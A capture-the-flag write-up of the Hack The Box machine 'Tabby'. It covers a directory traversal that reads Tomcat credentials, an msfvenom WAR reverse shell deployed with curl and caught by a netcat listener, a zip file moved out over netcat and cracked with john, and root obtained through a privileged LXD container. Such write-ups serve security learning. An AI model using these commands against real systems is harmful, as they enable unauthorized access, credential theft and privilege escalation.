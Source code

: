 ```yaml
---
layout: post
title:  "HTB Writeup [Linux - Easy] - Tabby"
published: true
---
```


![](/assets/Tabby/Tabby.png)

## Summary
- **Tabby** is a **linux** machine hosting both **Apache web server** and **Tomcat**.
- The website on port 80 had a **Directory Traversal vulnerability** which enabled us to **read a Tomcat configuration file** which **contained valid credentials.**
- *Using those,* we **get a user with enough privileges to upload a WAR file containing a reverse shell**. *And, with it*, we **access the box** as the `tomcat` user.
- We find an **encrypted backup archive in the webroot**. We **crack it** with `john` to **get a password.**
- The password was *being reused* by another user on the box (`ash`) who happened to be **a member of the `lxd` group.**
- We **escalate our privileges** to `root` by **creating a specially-configured container**.

---

## NMAP
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
`nmap` gives us areas to check:
- the **website on port 80**
- and the **Tomcat instance on port 8080**
- **SSH** would come in handy if we get any creds

## Port 80
The home page here was mostly **static content**.

![](/assets/Tabby/homepage-port-80.jpg)

*except for* the **link for the "News" page.**

note: *on the link below*, notice *how the host name changed* to **"megahosting.htb"**

![](/assets/Tabby/virtual-host-routing.jpg)

an entry in our `/etc/hosts` will take care of this **Virtual Host Routing**

```
10.10.10.194 megahosting.htb
```

we also notice that `news.php` handles **a parameter** called `file`. this looks like a **file inclusion vulnerability.**

![](/assets/Tabby/lfi-spotted.jpg)

trying `/etc/passwd` in the parameter doesn't work.

but going **4 directories back** with `../../../../` gets us the **confirmation** we need.

![](/assets/Tabby/lfi-confirmed.jpg)

*after a couple of tries to get the path right,* we are able to **get the source code** of the `news.php` file:

![](/assets/Tabby/news-php-src-code.jpg)

the `fopen` function here makes this a **Directory/Path Traversal vulnerability** and **not a Local File Inclusion.**

that's because `fopen` just **reads a file's contents**. it **doesn't evaluate PHP code** like `include` or `require`

***Knowing this bit spares us the effort of trying to get code execution by including PHP.***

## Reading Sensitive Files
*As a quick check,* we try to read the `ash` user's **private SSH key** (`/home/ash/.ssh/id_rsa`). But it's *not that easy* :)

We then think "maybe we should take a look at tomcat before diving any deeper here". Just in case..

![](/assets/Tabby/tomcat-homepage.jpg)

We get some **decent information** from this page. the **webroot** and **where Tomcat is installed.**

*But, when it comes to sensitive files,* there's **a very important one** called `tomcat-users.xml`. it's in `/usr/share/tomcat9/etc/` by default.

We found it there and got **creds for a user** with **very nice privileges** :]

![](/assets/Tabby/reading-tomcat-users-xml.jpg)

## Exploiting our Tomcat Privileges for RCE
The `manager-script` role has access to **upload WAR files.**

to abuse this, we will generate a **WAR reverse shell** with `msfvenom`

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.10.16.3 lport=9000 -f war -o revvy.war
```

![](/assets/Tabby/creating-a-war-file.jpg)

then **upload the WAR file** using `curl`

```bash
curl -v -u tomcat:'$3cureP4s5w0rd123!' -T revvy.war "http://tabby:8080/manager/text/deploy?path=/shell&update=true"
```

start up a `netcat` listener on port 9000

```bash
nc -lvnp 9000
```

and `curl` the endpoint to hit and trigger our reverse shell

```bash
curl http://tabby:8080/shell
```

![](/assets/Tabby/shell-as-tomcat.jpg)

we're in as `tomcat` :)

## Pivoting via Password Reuse

*Right after improving our shell,* we start with **checking the files** in `/var/www/html`

there was a folder called `files`. It contained a **password-protected zip archive** that was **owned by** the `ash` user.

![](/assets/Tabby/finding-ashes-zip-file.jpg)

we **transfer it over** to our kali using `netcat` so we can **crack** it

```bash
# on tabby
nc -lvnp 5000 < 16162020_backup.zip
# on our kali
nc tabby 5000 > ash_backup.zip
```

*and, to verify that the file wasn't corrupted in-transit,* we do a quick **integrity check** using `md5sum`.

![](/assets/Tabby/transferring-zip-file.jpg)

we use `zip2john` to **get a hash** for `john` to crack.

![](/assets/Tabby/zip-password.jpg)

it successfully cracked. but we *didn't find anything important* within the archive itself.

![](/assets/Tabby/zip-files.jpg)

the files were practically ***the same as the original ones.***

*But, since we now had a password,* we tried it against `ash` and `root`

didn't work with `root`, but **did** with `ash` :)

![](/assets/Tabby/logged-in-as-ash.jpg)

## LXD Privilege Escalation
*As you may have noticed from the previous image,* `ash` is part of the `lxd` group

![](/assets/Tabby/lxd-group-membership.jpg)

this is *almost exactly the same situation* as in the [Brainfuck Privesc](https://omnisl4sh.github.io/2022/08/17/Brainfuck.html#lxd-privilege-escalation).

one *minor difference* is that **we have to initialize the LX daemon** with `lxd init` before importing the image.

note: also make sure to add `/snap/bin` to the `PATH` environment variable as *it's not there by default.*

```bash
export PATH=$PATH:/snap/bin/
```

![](/assets/Tabby/lxd-init.jpg)

*for a bit of automation,* we're going to throw the commands into a **bash script**. here are the contents:

```bash
#!/bin/bash
lxc image import alpine-small-image.tar.gz --alias myimage
lxc image list
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

*after getting the container root shell,* we add an **SUID bit** to the host's **bash shell** so we can run it as `root`

```bash
chmod +s /mnt/root/bin/bash
```

![](/assets/Tabby/lxc-root-bash-script.jpg)

## Cleaning Up

*To clear away remnants,* we have to **stop the container**, **delete it** along with **the image we imported.**

```bash
lxc stop mycontainer
lxc delete mycontainer
lxc image delete myimage
```

![](/assets/Tabby/lxc-cleanup.jpg)
